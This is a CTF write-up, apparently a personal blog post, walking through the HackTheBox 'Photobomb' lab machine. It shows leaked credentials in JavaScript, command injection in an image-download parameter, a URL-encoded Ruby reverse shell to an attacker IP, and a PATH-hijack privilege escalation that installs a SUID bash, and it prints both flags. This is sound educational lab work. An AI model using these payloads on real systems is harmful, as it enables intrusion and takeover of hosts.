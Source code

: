 ```yaml
---
title: "HTB: Photobomb"
date: 2023-01-11T14:15:25+08:00
draft: false
author: "Jack Sun"
tags:
  - CTFs
  - Writeups
  - HackTheBox
  - Cybersecurity
image: /images/writeups/HTB/photobomb/banner.png
---
```


## Description

- 20 pts, Easy
- Written by `slartibartfast`

## User Flag

First thing first, add an entry to the `/etc/hosts` file with

```sh
echo "<ip address> photobomb.htb" >> /etc/hosts
```

Running nmap on the domain, we can see that there are 2 ports exposed:

- Web server on port 80
- SSH on 22

![nmap](/images/writeups/HTB/photobomb/nmap.png)

Checking out the web server on port 80, we are greeted with the website for a photo printing service called Photobomb.

![Click Here](/images/writeups/HTB/photobomb/index.png)

There is a link called `click here!` on the website, which points to another webpage. However this route is protected by a login form.

![Login](/images/writeups/HTB/photobomb/login.png)

Without the credentials, we are greeted with a `401` NGINX error page.

Checking out the the source code, we find a javascript file called `photobomb.js` containing the following:

```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

From this, we find the tech support credentials: `pH0t0:b0Mb!`, which we can manually enter into the login form or use the url `http://pH0t0:b0Mb!@photobomb.htb/` to automatically authenticate ourselves.

Unfortunately, I note here that the tech support credentials do not work for the SSH service that we found earlier through the nmap scan.

Anyways, now that have the tech support logins, we can navigate to the `/printer` route. Upon inspection, there is a download form at the bottom that allows for the selected image to be resized and downloaded.

Let's fire up Burp Suite and intercept that download request!

![Burp](/images/writeups/HTB/photobomb/burp.png)

We can see that the request uses the `POST` method. The URL encoded form data contains 3 parameters:

- `photo`
- `filetype`
- `dimensions`

I initially tried to manipulate the `photo` parameter in hopes of getting some form of path traversal or arbitrary file read, however, this proved unsuccessful.

I noted that if I sent a blank request, the server would return a debug page.

![blank_request](/images/writeups/HTB/photobomb/blank_request.png)

![error](/images/writeups/HTB/photobomb/error.png)

From this, I was able to determine that the server is running the Sinatra Ruby framework. I then tried searching for CVEs related to Sinatra to no success.

After sending the request to Burp Repeater and fuzzing all the parameters, I noticed that the server was returning a `500` error code when certain characters such as `'`, `"`, `$`, `;` were added after jpg in the `filetype` parameter. This could be an indication of a Remote Code Execution vulnerability.

This hypothesis can be tested by sending a test URL encoded payload such as `jpg;sleep%20100` on the filetype parameter. After sending the payload, we can see that the request takes a long time to complete, eventually timing out, thus confirming that our payload is being executed on the server and that a Remote Code Execution vulnerability exists.

Next, we will try to pop a reverse shell on the server so we can capture the user flag. I went to [revshells.com](https://www.revshells.com/) and tried a few payloads. Of course, we must URL Encode the payload as we are sending it as a form parameter. The `Ruby #1` payload seemed to work in this instance:

```ruby
ruby%20-rsocket%20-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.XX.XX.XX%22%2C4444%29%29%27
```

After starting a reverse shell listener on my machine, I sent the payload to the server and after a while, I caught a reverse shell. Running `whoami`, we can see that we have taken over the account of `wizard`.

![whoami](/images/writeups/HTB/photobomb/whoami.png)

Next we can upgrade the shell to a TTY with python. `python -c 'import pty; pty.spawn("/bin/bash")'` complained that python was not installed. I tried again with `python3` and it worked.

![upgrade](/images/writeups/HTB/photobomb/upgrade.png)

After changing into the home directory via `cd ~`, we find a file called `user.txt` containing the user flag.

![user flag](/images/writeups/HTB/photobomb/userflag.png)

User flag: `c2b4e704eecdabe4cba7c012ce9c8fe6`

## Root Flag

Running `sudo -l`, we see that `wizard` can run a peculiar script `/opt/cleanup.sh` as root without a password.

![sudo](/images/writeups/HTB/photobomb/sudo.png)

Catting out the contents of the script gives us the following:

```sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Immediately, I noticed that `find` is not called explicitly with its full path like the other commands. This is vulnerable to a `PATH` variable manipulation attack. We can inject a malicious path into the PATH variable before `/usr/bin` containing a malicious script called `find`. Then, when we execute `/opt/cleanup.sh`, it will execute our malicious `find` script instead of the original `find` program in `/usr/bin`.

Inside `/tmp/find`, we can write a simple script to install a privileged bash shell with the SUID bit set in `/tmp` and then run `/opt/cleanup.sh`. I have adapted the installation command from [GTFO Bin](https://gtfobins.github.io/gtfobins/bash/#suid) as below for our purposes:

```sh
install -m =xs $(which bash) /tmp/bash
```

After doing so, we give the script execute permission with `chmod +x ./find`. We can now run `sudo PATH=/tmp:$PATH /opt/cleanup.sh`, which will in turn execute our malicious script.

![install](/images/writeups/HTB/photobomb/install.png)

We can now spawn a root bash shell with `/tmp/bash -p`. Running `whoami` confirms that we are root.

![root](/images/writeups/HTB/photobomb/root.png)

Next, we can navigate to `/root` and capture the root flag.

![root flag](/images/writeups/HTB/photobomb/rootflag.png)

Root flag: `899b78ed71f3a29a23df770acc5ce2fa`
